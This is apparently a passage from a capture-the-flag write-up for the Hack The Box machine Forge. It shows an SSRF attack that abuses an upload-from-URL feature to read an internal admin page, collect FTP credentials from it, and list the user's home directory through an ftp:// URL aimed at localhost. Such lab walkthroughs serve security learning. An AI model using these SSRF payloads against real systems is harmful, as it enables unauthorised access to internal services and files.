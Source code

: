 
so we have the following directories at the `admin.forge.htb`

```
/announcements
/upload
/
```

Back to the upload from url and requesting

```
http://admin.forge.HTB/announcements
```

downloading the page to see the content we can see :

![image](/assets/images/Forge/forge_7.png)

- so we have credentials : **user:heightofsecurity123!**
- i tried to ssh with those But it can't access ssh with a public key so it seems we have to get the `id_rsa` somehow if we want to ssh into the machine.

- so depending on page `/announcements` we can use `ftp://` with the upload page in this `admin.forge.HTB` .

#### Foothold :

```
http://admin.forge.HTB/upload?u=ftp://
```

But How could we access the ftp with a user:password from web url ?

- reading [here](https://www.timeatlas.com/ftp-web-browser/)
- we can use the following syntax :

```
http://admin.forge.HTB/upload?u=ftp://user:heightofsecurity123!@127.1
```

downloading the content :

```
drwxr-xr-x    3 1000     1000         4096 Aug 04 19:23 snap
-rw-r-----    1 0        1000           33 Jan 17 00:17 user.txt
```
